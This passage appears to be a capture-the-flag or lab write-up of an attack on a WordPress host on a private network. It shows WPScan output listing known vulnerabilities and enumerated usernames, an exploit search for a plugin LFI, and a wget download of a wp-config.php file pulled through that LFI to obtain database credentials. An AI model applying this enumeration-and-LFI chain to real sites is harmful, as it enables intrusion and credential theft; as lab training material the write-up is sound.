            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: https://192.168.43.10:12380/blogblog/
[+] Started: Tue Sep 25 15:55:40 2018

[+] Interesting header: DAVE: Soemthing doesn't look right here
[+] Interesting header: SERVER: Apache/2.4.18 (Ubuntu)
[+] XML-RPC Interface available under: https://192.168.43.10:12380/blogblog/xmlrpc.php   [HTTP 405]
[+] Found an RSS Feed: https://192.168.43.10:12380/blogblog/?feed=rss2   [HTTP 200]
[!] Detected 1 user from RSS feed:
+------------+
| Name       |
+------------+
| John Smith |
+------------+
[!] Upload directory has directory listing enabled: https://192.168.43.10:12380/blogblog/wp-content/uploads/
[!] Includes directory has directory listing enabled: https://192.168.43.10:12380/blogblog/wp-includes/

[+] Enumerating WordPress version ...
[!] The WordPress 'https://192.168.43.10:12380/blogblog/readme.html' file exists exposing a version number

[+] WordPress version 4.2.1 (Released on 2015-04-27) identified from advanced fingerprinting, meta generator, readme, links opml, stylesheets numbers
[!] 55 vulnerabilities identified from the version number

[!] Title: WordPress 4.1-4.2.1 - Unauthenticated Genericons Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/7979
    Reference: https://codex.wordpress.org/Version_4.2.2
[i] Fixed in: 4.2.2

[!] Title: WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8111
    Reference: https://wordpress.org/news/2015/07/wordpress-4-2-3/
    Reference: https://twitter.com/klikkioy/status/624264122570526720
    Reference: https://klikki.fi/adv/wordpress3.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623
[i] Fixed in: 4.2.3

[!] Title: WordPress <= 4.2.3 - wp_untrash_post_comments SQL Injection 
    Reference: https://wpvulndb.com/vulnerabilities/8126
    Reference: https://github.com/WordPress/WordPress/commit/70128fe7605cb963a46815cf91b0a5934f70eff5
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-2213
[i] Fixed in: 4.2.4

[!] Title: WordPress <= 4.2.3 - Timing Side Channel Attack
    Reference: https://wpvulndb.com/vulnerabilities/8130
    Reference: https://core.trac.wordpress.org/changeset/33536
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5730
[i] Fixed in: 4.2.4

[!] Title: WordPress <= 4.2.3 - Widgets Title Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8131
    Reference: https://core.trac.wordpress.org/changeset/33529
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5732
[i] Fixed in: 4.2.4

[!] Title: WordPress <= 4.2.3 - Nav Menu Title Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8132
    Reference: https://core.trac.wordpress.org/changeset/33541
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5733
[i] Fixed in: 4.2.4

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8133
    Reference: https://core.trac.wordpress.org/changeset/33549
    Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734
[i] Fixed in: 4.2.4

[!] Title: WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8186
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
    Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714
[i] Fixed in: 4.2.5

[!] Title: WordPress <= 4.3 - User List Table Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8187
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: https://github.com/WordPress/WordPress/commit/f91a5fd10ea7245e5b41e288624819a37adf290a
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-7989
[i] Fixed in: 4.2.5

[!] Title: WordPress <= 4.3 - Publish Post & Mark as Sticky Permission Issue
    Reference: https://wpvulndb.com/vulnerabilities/8188
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
    Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5715
[i] Fixed in: 4.2.5

[!] Title: WordPress  3.7-4.4 - Authenticated Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8358
    Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564
[i] Fixed in: 4.2.6

[!] Title: WordPress 3.7-4.4.1 - Local URIs Server Side Request Forgery (SSRF)
    Reference: https://wpvulndb.com/vulnerabilities/8376
    Reference: https://wordpress.org/news/2016/02/wordpress-4-4-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/36435
    Reference: https://hackerone.com/reports/110801
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-2222
[i] Fixed in: 4.2.7

[!] Title: WordPress 3.7-4.4.1 - Open Redirect
    Reference: https://wpvulndb.com/vulnerabilities/8377
    Reference: https://wordpress.org/news/2016/02/wordpress-4-4-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/36444
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-2221
[i] Fixed in: 4.2.7

[!] Title: WordPress <= 4.4.2 - SSRF Bypass using Octal & Hexedecimal IP addresses
    Reference: https://wpvulndb.com/vulnerabilities/8473
    Reference: https://codex.wordpress.org/Version_4.5
    Reference: https://github.com/WordPress/WordPress/commit/af9f0520875eda686fd13a427fd3914d7aded049
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4029
[i] Fixed in: 4.5

[!] Title: WordPress <= 4.4.2 - Reflected XSS in Network Settings
    Reference: https://wpvulndb.com/vulnerabilities/8474
    Reference: https://codex.wordpress.org/Version_4.5
    Reference: https://github.com/WordPress/WordPress/commit/cb2b3ed3c7d68f6505bfb5c90257e6aaa3e5fcb9
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6634
[i] Fixed in: 4.5

[!] Title: WordPress <= 4.4.2 - Script Compression Option CSRF
    Reference: https://wpvulndb.com/vulnerabilities/8475
    Reference: https://codex.wordpress.org/Version_4.5
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6635
[i] Fixed in: 4.5

[!] Title: WordPress 4.2-4.5.1 - MediaElement.js Reflected Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8488
    Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
    Reference: https://github.com/WordPress/WordPress/commit/a493dc0ab5819c8b831173185f1334b7c3e02e36
    Reference: https://gist.github.com/cure53/df34ea68c26441f3ae98f821ba1feb9c
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4567
[i] Fixed in: 4.5.2

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)
    Reference: https://wpvulndb.com/vulnerabilities/8489
    Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
    Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8
    Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566
[i] Fixed in: 4.2.8

[!] Title: WordPress 4.2-4.5.2 - Authenticated Attachment Name Stored XSS
    Reference: https://wpvulndb.com/vulnerabilities/8518
    Reference: https://wordpress.org/news/2016/06/wordpress-4-5-3/
    Reference: https://github.com/WordPress/WordPress/commit/4372cdf45d0f49c74bbd4d60db7281de83e32648
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5833
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5834
[i] Fixed in: 4.2.9

[!] Title: WordPress 3.6-4.5.2 - Authenticated Revision History Information Disclosure
    Reference: https://wpvulndb.com/vulnerabilities/8519
    Reference: https://wordpress.org/news/2016/06/wordpress-4-5-3/
    Reference: https://github.com/WordPress/WordPress/commit/a2904cc3092c391ac7027bc87f7806953d1a25a1
    Reference: https://www.wordfence.com/blog/2016/06/wordpress-core-vulnerability-bypass-password-protected-posts/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5835
[i] Fixed in: 4.2.9

[!] Title: WordPress 2.6.0-4.5.2 - Unauthorized Category Removal from Post
    Reference: https://wpvulndb.com/vulnerabilities/8520
    Reference: https://wordpress.org/news/2016/06/wordpress-4-5-3/
    Reference: https://github.com/WordPress/WordPress/commit/6d05c7521baa980c4efec411feca5e7fab6f307c
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5837
[i] Fixed in: 4.2.9

[!] Title: WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
    Reference: https://wpvulndb.com/vulnerabilities/8615
    Reference: https://wordpress.org/news/2016/09/wordpress-4-6-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0
    Reference: https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html
    Reference: http://seclists.org/fulldisclosure/2016/Sep/6
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7168
[i] Fixed in: 4.2.10

[!] Title: WordPress 2.8-4.6 - Path Traversal in Upgrade Package Uploader
    Reference: https://wpvulndb.com/vulnerabilities/8616
    Reference: https://wordpress.org/news/2016/09/wordpress-4-6-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/54720a14d85bc1197ded7cb09bd3ea790caa0b6e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7169
[i] Fixed in: 4.2.10

[!] Title: WordPress 2.9-4.7 - Authenticated Cross-Site scripting (XSS) in update-core.php
    Reference: https://wpvulndb.com/vulnerabilities/8716
    Reference: https://github.com/WordPress/WordPress/blob/c9ea1de1441bb3bda133bf72d513ca9de66566c2/wp-admin/update-core.php
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5488
[i] Fixed in: 4.2.11

[!] Title: WordPress 3.4-4.7 - Stored Cross-Site Scripting (XSS) via Theme Name fallback
    Reference: https://wpvulndb.com/vulnerabilities/8718
    Reference: https://www.mehmetince.net/low-severity-wordpress/
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/ce7fb2934dd111e6353784852de8aea2a938b359
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5490
[i] Fixed in: 4.2.11

[!] Title: WordPress <= 4.7 - Post via Email Checks mail.example.com by Default
    Reference: https://wpvulndb.com/vulnerabilities/8719
    Reference: https://github.com/WordPress/WordPress/commit/061e8788814ac87706d8b95688df276fe3c8596a
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5491
[i] Fixed in: 4.2.11

[!] Title: WordPress 2.8-4.7 - Accessibility Mode Cross-Site Request Forgery (CSRF)
    Reference: https://wpvulndb.com/vulnerabilities/8720
    Reference: https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5492
[i] Fixed in: 4.2.11

[!] Title: WordPress 3.0-4.7 - Cryptographically Weak Pseudo-Random Number Generator (PRNG)
    Reference: https://wpvulndb.com/vulnerabilities/8721
    Reference: https://github.com/WordPress/WordPress/commit/cea9e2dc62abf777e06b12ec4ad9d1aaa49b29f4
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5493
[i] Fixed in: 4.2.11

[!] Title: WordPress 4.2.0-4.7.1 - Press This UI Available to Unauthorised Users
    Reference: https://wpvulndb.com/vulnerabilities/8729
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-2-security-release/
    Reference: https://github.com/WordPress/WordPress/commit/21264a31e0849e6ff793a06a17de877dd88ea454
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5610
[i] Fixed in: 4.2.12

[!] Title: WordPress 3.5-4.7.1 - WP_Query SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8730
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-2-security-release/
    Reference: https://github.com/WordPress/WordPress/commit/85384297a60900004e27e417eac56d24267054cb
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5611
[i] Fixed in: 4.2.12

[!] Title: WordPress 3.6.0-4.7.2 - Authenticated Cross-Site Scripting (XSS) via Media File Metadata
    Reference: https://wpvulndb.com/vulnerabilities/8765
    Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7
    Reference: https://sumofpwn.nl/advisory/2016/wordpress_audio_playlist_functionality_is_affected_by_cross_site_scripting.html
    Reference: http://seclists.org/oss-sec/2017/q1/563
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6814
[i] Fixed in: 4.2.13

[!] Title: WordPress 2.8.1-4.7.2 - Control Characters in Redirect URL Validation
    Reference: https://wpvulndb.com/vulnerabilities/8766
    Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/288cd469396cfe7055972b457eb589cea51ce40e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6815
[i] Fixed in: 4.2.13

[!] Title: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
    Reference: https://wpvulndb.com/vulnerabilities/8768
    Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
    Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
[i] Fixed in: 4.2.13

[!] Title: WordPress 4.2-4.7.2 - Press This CSRF DoS
    Reference: https://wpvulndb.com/vulnerabilities/8770
    Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/263831a72d08556bc2f3a328673d95301a152829
    Reference: https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_press_this_function_allows_dos.html
    Reference: http://seclists.org/oss-sec/2017/q1/562
    Reference: https://hackerone.com/reports/153093
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6819
[i] Fixed in: 4.2.13

[!] Title: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
    Reference: https://wpvulndb.com/vulnerabilities/8807
    Reference: https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html
    Reference: http://blog.dewhurstsecurity.com/2017/05/04/exploitbox-wordpress-security-advisories.html
    Reference: https://core.trac.wordpress.org/ticket/25239
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8295

[!] Title: WordPress 2.7.0-4.7.4 - Insufficient Redirect Validation
    Reference: https://wpvulndb.com/vulnerabilities/8815
    Reference: https://github.com/WordPress/WordPress/commit/76d77e927bb4d0f87c7262a50e28d84e01fd2b11
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9066
[i] Fixed in: 4.2.15

[!] Title: WordPress 2.5.0-4.7.4 - Post Meta Data Values Improper Handling in XML-RPC
    Reference: https://wpvulndb.com/vulnerabilities/8816
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://github.com/WordPress/WordPress/commit/3d95e3ae816f4d7c638f40d3e936a4be19724381
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9062
[i] Fixed in: 4.2.15

[!] Title: WordPress 3.4.0-4.7.4 - XML-RPC Post Meta Data Lack of Capability Checks 
    Reference: https://wpvulndb.com/vulnerabilities/8817
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://github.com/WordPress/WordPress/commit/e88a48a066ab2200ce3091b131d43e2fab2460a4
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9065
[i] Fixed in: 4.2.15

[!] Title: WordPress 2.5.0-4.7.4 - Filesystem Credentials Dialog CSRF
    Reference: https://wpvulndb.com/vulnerabilities/8818
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://github.com/WordPress/WordPress/commit/38347d7c580be4cdd8476e4bbc653d5c79ed9b67
    Reference: https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_connection_information.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9064
[i] Fixed in: 4.2.15

[!] Title: WordPress 3.3-4.7.4 - Large File Upload Error XSS
    Reference: https://wpvulndb.com/vulnerabilities/8819
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://github.com/WordPress/WordPress/commit/8c7ea71edbbffca5d9766b7bea7c7f3722ffafa6
    Reference: https://hackerone.com/reports/203515
    Reference: https://hackerone.com/reports/203515
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9061
[i] Fixed in: 4.2.15

[!] Title: WordPress 3.4.0-4.7.4 - Customizer XSS & CSRF
    Reference: https://wpvulndb.com/vulnerabilities/8820
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://github.com/WordPress/WordPress/commit/3d10fef22d788f29aed745b0f5ff6f6baea69af3
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9063
[i] Fixed in: 4.2.15

[!] Title: WordPress 2.3.0-4.8.1 - $wpdb->prepare() potential SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8905
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/70b21279098fc973eae803693c0705a548128e48
    Reference: https://github.com/WordPress/WordPress/commit/fc930d3daed1c3acef010d04acc2c5de93cd18ec
[i] Fixed in: 4.2.16

[!] Title: WordPress 2.3.0-4.7.4 - Authenticated SQL injection
    Reference: https://wpvulndb.com/vulnerabilities/8906
    Reference: https://medium.com/websec/wordpress-sqli-bbb2afcc8e94
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/70b21279098fc973eae803693c0705a548128e48
    Reference: https://wpvulndb.com/vulnerabilities/8905
[i] Fixed in: 4.7.5

[!] Title: WordPress 2.9.2-4.8.1 - Open Redirect
    Reference: https://wpvulndb.com/vulnerabilities/8910
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41398
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14725
[i] Fixed in: 4.2.16

[!] Title: WordPress 3.0-4.8.1 - Path Traversal in Unzipping
    Reference: https://wpvulndb.com/vulnerabilities/8911
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41457
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14719
[i] Fixed in: 4.2.16

[!] Title: WordPress <= 4.8.2 - $wpdb->prepare() Weakness
    Reference: https://wpvulndb.com/vulnerabilities/8941
    Reference: https://wordpress.org/news/2017/10/wordpress-4-8-3-security-release/
    Reference: https://github.com/WordPress/WordPress/commit/a2693fd8602e3263b5925b9d799ddd577202167d
    Reference: https://twitter.com/ircmaxell/status/923662170092638208
    Reference: https://blog.ircmaxell.com/2017/10/disclosure-wordpress-wpdb-sql-injection-technical.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16510
[i] Fixed in: 4.2.17

[!] Title: WordPress 2.8.6-4.9 - Authenticated JavaScript File Upload
    Reference: https://wpvulndb.com/vulnerabilities/8966
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/67d03a98c2cae5f41843c897f206adde299b0509
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17092
[i] Fixed in: 4.2.18

[!] Title: WordPress 1.5.0-4.9 - RSS and Atom Feed Escaping
    Reference: https://wpvulndb.com/vulnerabilities/8967
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/f1de7e42df29395c3314bf85bff3d1f4f90541de
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17094
[i] Fixed in: 4.2.18

[!] Title: WordPress 3.7-4.9 - 'newbloguser' Key Weak Hashing
    Reference: https://wpvulndb.com/vulnerabilities/8969
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/eaf1cfdc1fe0bdffabd8d879c591b864d833326c
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17091
[i] Fixed in: 4.2.18

[!] Title: WordPress 3.7-4.9.1 - MediaElement Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/9006
    Reference: https://github.com/WordPress/WordPress/commit/3fe9cb61ee71fcfadb5e002399296fcc1198d850
    Reference: https://wordpress.org/news/2018/01/wordpress-4-9-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/ticket/42720
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5776
[i] Fixed in: 4.9.2

[!] Title: WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
    Reference: https://wpvulndb.com/vulnerabilities/9021
    Reference: https://baraktawily.blogspot.fr/2018/02/how-to-dos-29-of-world-wide-websites.html
    Reference: https://github.com/quitten/doser.py
    Reference: https://thehackernews.com/2018/02/wordpress-dos-exploit.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389

[!] Title: WordPress 3.7-4.9.4 - Remove localhost Default
    Reference: https://wpvulndb.com/vulnerabilities/9053
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/804363859602d4050d9a38a21f5a65d9aec18216
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10101
[i] Fixed in: 4.2.20

[!] Title: WordPress 3.7-4.9.4 - Use Safe Redirect for Login
    Reference: https://wpvulndb.com/vulnerabilities/9054
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/14bc2c0a6fde0da04b47130707e01df850eedc7e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10100
[i] Fixed in: 4.2.20

[!] Title: WordPress 3.7-4.9.4 - Escape Version in Generator Tag
    Reference: https://wpvulndb.com/vulnerabilities/9055
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/31a4369366d6b8ce30045d4c838de2412c77850d
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10102
[i] Fixed in: 4.2.20

[!] Title: WordPress <= 4.9.6 - Authenticated Arbitrary File Deletion
    Reference: https://wpvulndb.com/vulnerabilities/9100
    Reference: https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/
    Reference: http://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/
    Reference: https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
    Reference: https://wordpress.org/news/2018/07/wordpress-4-9-7-security-and-maintenance-release/
    Reference: https://www.wordfence.com/blog/2018/07/details-of-an-additional-file-deletion-vulnerability-patched-in-wordpress-4-9-7/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12895
[i] Fixed in: 4.2.21

[+] WordPress theme in use: bhost - v1.2.9

[+] Name: bhost - v1.2.9
 |  Last updated: 2018-01-10T00:00:00.000Z
 |  Location: https://192.168.43.10:12380/blogblog/wp-content/themes/bhost/
 |  Readme: https://192.168.43.10:12380/blogblog/wp-content/themes/bhost/readme.txt
[!] The version is out of date, the latest version is 1.4.0
 |  Style URL: https://192.168.43.10:12380/blogblog/wp-content/themes/bhost/style.css
 |  Theme Name: BHost
 |  Theme URI: Author: Masum Billah
 |  Description: Bhost is a nice , clean , beautifull, Responsive and modern design free WordPress Theme. This the...
 |  Author: Masum Billah
 |  Author URI: http://getmasum.net/

[+] Enumerating plugins from passive detection ...
[+] No plugins found passively

[+] Enumerating usernames ...
[+] We identified the following 10 users:
    +----+---------+-----------------+
    | ID | Login   | Name            |
    +----+---------+-----------------+
    | 1  | john    | John Smith      |
    | 2  | elly    | Elly Jones      |
    | 3  | peter   | Peter Parker    |
    | 4  | barry   | Barry Atkins    |
    | 5  | heather | Heather Neville |
    | 6  | garry   | garry           |
    | 7  | harry   | harry           |
    | 8  | scott   | scott           |
    | 9  | kathy   | kathy           |
    | 10 | tim     | tim             |
    +----+---------+-----------------+

[+] Finished: Tue Sep 25 15:55:42 2018
[+] Elapsed time: 00:00:01
[+] Requests made: 77
[+] Memory used: 34.57 MB
</pre>
<p><font size="3.5" color="black">A little search came up with the result that the advanced-video-embed-embed-videos-or-playlists - v1.0 is vulnerable to LFI:</font></p>
<pre style="background-color:black;color:white;">
[GandoPC 192.168.43.10]# getsploit advanced-video-embed-embed-videos-or-playlists 1
Total found exploits: 3
Web-search URL: https://vulners.com/search?query=bulletinFamily%3Aexploit+AND+advanced-video-embed-embed-videos-or-playlists+1
+----------------------+--------------------------------+----------------------------------------------------+
|          ID          |         Exploit Title          |                        URL                         |
+======================+================================+====================================================+
|   1337DAY-ID-25160   | Advanced Webhost Billing       |      https://vulners.com/zdt/1337DAY-ID-25160      |
|                      | System (AWBS) 2.9.6 - Multiple |                                                    |
|                      | Vulnerabilities                |                                                    |
+----------------------+--------------------------------+----------------------------------------------------+
|   1337DAY-ID-24987   | WordPress Advanced Video 1.0   |      https://vulners.com/zdt/1337DAY-ID-24987      |
|                      | Plugin - Local File Inclusion  |                                                    |
+----------------------+--------------------------------+----------------------------------------------------+
|  PACKETSTORM:136566  | WordPress Advanced Video 1.0   | https://vulners.com/packetstorm/PACKETSTORM:136566 |
|                      | Local File Inclusion           |                                                    |
+----------------------+--------------------------------+----------------------------------------------------+
</pre>
<br>

<br>
<br>
<p><font size="3.5" color="black">I used this POC in order to get wp-config.php file:</font></p>

<br>
<br>
<p><font size="3.5" color="black">wp-config.php file is saved as a .jpeg inside /uploads directory:</font></p>

<br>
<br>
<p><font size="3.5" color="black">I downloaded the file and read its content:</font></p>
<pre style="background-color:black;color:white;">
[GandoPC 192.168.43.10]# wget --no-check-certificate https://192.168.43.10:12380/blogblog/wp-content/uploads/606078739.jpeg
--2018-09-27 20:01:55--  https://192.168.43.10:12380/blogblog/wp-content/uploads/606078739.jpeg
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Connecting to 192.168.43.10:12380... connected.
WARNING: The certificate of 192.168.43.10 is not trusted.
WARNING: The certificate of 192.168.43.10 hasn't got a known issuer.
The certificate's owner does not match hostname 192.168.43.10
HTTP request sent, awaiting response... 200 OK
Length: 3042 (3.0K) [image/jpeg]
Saving to: 606078739.jpeg

606078739.jpeg                                 100%[=====================================================================================================>]   2.97K  --.-KB/s    in 0.003s  

2018-09-27 20:01:55 (1.11 MB/s) - 606078739.jpeg saved [3042/3042]
</pre>
<p><font size="3.5" color="black">MySQL database username and password were found:</font></p>

<hr>
